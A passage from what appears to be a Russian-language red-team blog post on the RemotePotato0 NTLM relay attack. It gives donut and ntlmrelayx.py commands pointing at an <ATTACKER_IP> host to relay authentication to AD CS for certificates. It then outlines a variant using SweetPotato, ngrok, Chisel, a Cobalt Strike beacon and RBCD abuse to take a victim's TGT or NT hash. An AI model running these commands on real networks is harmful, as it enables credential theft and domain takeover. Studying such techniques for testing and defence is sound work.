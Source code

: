 [![Вот вам пруф](/assets/images/remote-potato-0/adcs-server.png)](/assets/images/remote-potato-0/adcs-server.png)
{:.center-image}

Вот вам пруф
{:.quote}

Но в командах это должно было бы выглядеть примерно так.

```
~$ ./donut -i RemotePotato0.exe -b=1 -t -p '-m 0 -r <ATTACKER_IP> -x <ATTACKER_IP> -p 9998 -s <SESSION_ID> -c {f8842f8e-dafe-4b37-9d38-4e0714a61149}' -o RemotePotato0.bin
~$ ntlmrelayx.py -t http://<ADCS_CA_IP>/certsrv/certfnsh.asp --no-smb-server --no-wcf-server --no-raw-server --adcs --template User
```

При успешной генерации сертификата от имени атакованного пользюка, далее действуем обычно, как это происходит после проведение ESC8-атаки, а именно пользуемся «[Рубевусом](https://github.com/GhostPack/Rubeus#asktgt)» (флаг `/getcredentials`) или [PKINITtools](https://github.com/dirkjanm/PKINITtools) для получения TGT и/или NT-хеша жертвы.

# Бонус № 2. Remote Potato без RemotePotato0.exe

В репозитории Impacket ждет своего часа [pull request](https://github.com/SecureAuthCorp/impacket/pull/1299), избавляющий нас от необходимости тащить на атакуемый хост RemotePotato0.exe: триггер NTLM-аутентификации перенесли [в этот форк SweetPotato](https://github.com/MrAle98/SweetPotato), RPC-сервер реализовали в самом ntlmrelayx.py, а OXID-резолвер вынесли в отдельный скрипт rpcoxidresolver.py. Однако в этом случае самый вкусный функционал будет урезан – триггерить NTLM-аутентификацию можно только от имени машинной УЗ, но не сквозь чужую сессию.

Я покажу способ вооружить и этот вариант атаки, имея под рукой только бикон «кобы» и инстанс VDS, через классическую реализацию **RBCD-абьюза** для пывна сервера, откуда прилетает аутентификация.

Для этого сначала определимся, что, куда и зачем мы редиректим:

1. С помощью ngrok создаем TCP-канал извне до **localhost:135**. Так как RPC-сервер теперь крутится на машине атакующего, нам не нужно ничего зеркалить вторым socat – достаточно запустить rpcoxidresolver.py, который уже [слушает localhost:135](https://github.com/SecureAuthCorp/impacket/blob/9ac5e9efdf0dca58e56f62e6bd15d64ce772d2ca/examples/rpcoxidresolver.py#L131).
2. С помощью Chisel пробрасываем порт 9997 с VDS на порт 9998 машины атакующего, который слушает RPC-сервер ntlmrelayx.py. В качестве адреса RPC-сервера в rpcoxidresolver.py (опция `-rip`) указываем IP нашего VDS – это нужно для того, чтобы передать NTLM-аутентификацию в ntlmrelayx.py (при использовании адреса 127.0.0.1 эта конструкция работать отказывается).
3. ntlmrelayx.py пускаем через проксю CS для релея на службу LDAPS контроллера домена. Да, на LDAP**S**, потому что в результате релея мы хотим настроить делегирование относительно вспомогательной сервисной УЗ, которую нельзя создать по LDAP.
4. Стреляем SweetPotato.exe из CS с триггером CLSID `{42CBFAA7-A4A7-47BB-B422-BD10E9D02700}`, предлагаемого автором PR.
